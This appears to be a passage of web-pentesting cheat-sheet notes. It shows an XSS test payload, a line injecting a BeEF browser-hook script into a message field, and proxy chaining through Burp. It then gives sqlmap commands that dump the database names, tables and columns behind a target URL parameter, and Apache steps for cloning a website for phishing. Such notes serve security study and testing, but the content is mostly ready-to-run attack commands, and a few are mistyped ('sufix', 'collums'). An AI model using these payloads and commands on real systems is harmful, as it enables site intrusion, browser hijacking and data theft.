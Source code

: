 ```js
<span onmouseover="console.info('sounds good')">Great site</span>
```

Inject the BeEF hook:

```js
random message<script src="beef hook"></script>
```

```js
in BeEF > click in the target IP > use as Proxy
- configure a browser proxy such as foxyproxy
- 127.0.0.1:8080
- ignore proxy For localhost, 127.0.0.1, <our ip>
```

in BURP:

```js
- Options > Connections > Upstream Proxy Server
- Destination Host:*
- Proxy Host: 127.0.0.1
- Proxy Port: 6789

- Target > Scope
- Host: <target domain or IP>
```

SQLMAP:

```bash
sqlmap -u "<target url/search?rnd=a1a1&name=a>" -p name --proxy="http://127.0.0.1:8080" --randomize rnd --dbms=mysql --technique=U --union-cols=7-10 --prefix "'" --sufix " # " --banner
sqlmap -u "<target url/search?rnd=a1a1&name=a>" -p name --proxy="http://127.0.0.1:8080" --current-db
sqlmap -u "<target url/search?rnd=a1a1&name=a>" -p name --proxy="http://127.0.0.1:8080" -D <name of the db> --tables
sqlmap -u "<target url/search?rnd=a1a1&name=a>" -p name --proxy="http://127.0.0.1:8080" -D <DBs name> -T <TABLEs name> --collums 
```

### 3 - Website Cloning

```bash
# edit /etc/hosts > add 127.0.0.1 cloned.test
cd /etc/apache2/sites-available > cp default cloned.test

# edit clonet.test > add ServerName cloned.test > edit DocumentRoot /var/www/cloned.test
a2ensite cloned.test
service apache2 reload

cd /var/www/cloned.test
echo 'Hello World' > index.html
test in browser
```
